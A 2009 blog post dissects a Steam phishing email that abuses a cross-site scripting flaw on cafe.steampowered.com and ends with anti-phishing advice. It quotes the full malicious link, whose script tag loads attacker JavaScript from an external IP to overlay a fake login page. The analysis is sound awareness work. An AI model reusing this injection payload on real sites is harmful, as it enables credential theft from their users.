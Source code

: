 Title: Don't Get Caught In This Steam Phishing Scam - How Phishers Work
Date: 2009-11-02
Author: Seppe "Macuyiko" vanden Broucke

So I just got this mail in my inbox:  
![](http://4.bp.blogspot.com/_X4W-h82Vgjw/Su9YncAJhVI/AAAAAAAAPQQ/NilcjCkx6AY/s400/Screenshot1.png)  
Needless to say, I was pretty surprised, I didn't know Steam accounts could expire. Sure enough the e-mail looks legit, it's mailed from support@steam.com, didn't get caught by Gmail's spam filter, and the corporate footer looks clean enough. If you have an eye for detail you might notice that there is a space missing here: "click here,login".  
Let's check where this link leads to:  
![](http://4.bp.blogspot.com/_X4W-h82Vgjw/Su9Zd5oXnvI/AAAAAAAAPQY/jbSCOU8YTno/s400/Screenshot2.png)  
    https://cafe.steampowered.com/directory.php?country=AL&amp;state='&gt;<script%20src%3dhttp://92.241.190.202/~faaaaaaa/phising/steam/iframe.js></script%20src%3dhttp://92.241.190.202/~faaaaaaa/phising/steam/iframe.js>  
"cafe.steampowered.com" certainly looks okay, but now it becomes clear that the state variable has been tampered with. It certainly points to an external script, and putting it in the "phising" folder really doesn't look good... let's open the link. Here's how it looks in Chrome:  
![](http://1.bp.blogspot.com/_X4W-h82Vgjw/Su9aZzEIxVI/AAAAAAAAPQg/vAbzAo3HsXw/s400/Screenshot3.png)  
And sure enough, the page looks messed up. Let's look at the generated html source:  
![](http://3.bp.blogspot.com/_X4W-h82Vgjw/Su9bOIlV7FI/AAAAAAAAPQo/ooF3xbybE4E/s400/Screenshot4.png)  
The phishers have now a fully working script tag injected in the source. Let's see what's in there:  
![](http://3.bp.blogspot.com/_X4W-h82Vgjw/Su9bmGpVaBI/AAAAAAAAPQ4/cJCtXXdoDwU/s400/Screenshot5.png)  
Basically, the phisher is replacing the document body with an iframe which points to an evil url. Let's take a look at that url:  
![](http://4.bp.blogspot.com/_X4W-h82Vgjw/Su9b90RfIzI/AAAAAAAAPRA/KW_g8Rt30l8/s400/Screenshot6.png)  
Sure enough, it's a fake Steam login page.  
Now you might have noticed that the phisher's attack method wasn't working in Chrome. Using Firefox, on the same machine, opening the URL from the mail immediately gives:  
![](http://1.bp.blogspot.com/_X4W-h82Vgjw/Su9cxPr7lcI/AAAAAAAAPRI/K1Q_TDa7NAc/s400/Screenshot7.png)  
So, what have we learned?  
  - Always check mails for spelling mistakes.
  - Always check mail and browser URLs for suspicious content.
  - If available: trust your spam/phishing filter.
  - If you're asked to re-enable your account and you get redirected to a general login page (like the fake on we saw), you can always open a new tab and go to steampowered.com (or other website) by typing it yourself and login that way.
Which actions should be taken?  
  - Chrome, Firefox and others should detect this evil site as a phishing site (they detect most of them already, but new ones take a while before they get picked up).
  - Gmail's spam filter failed here, I reported the e-mail as a phishing scam.
  - Steam has an [XSS](http://en.wikipedia.org/wiki/Cross-site_scripting) exploit in their site which they should fix as soon as possible. Never say that "XSS exploits aren't that dangerous"!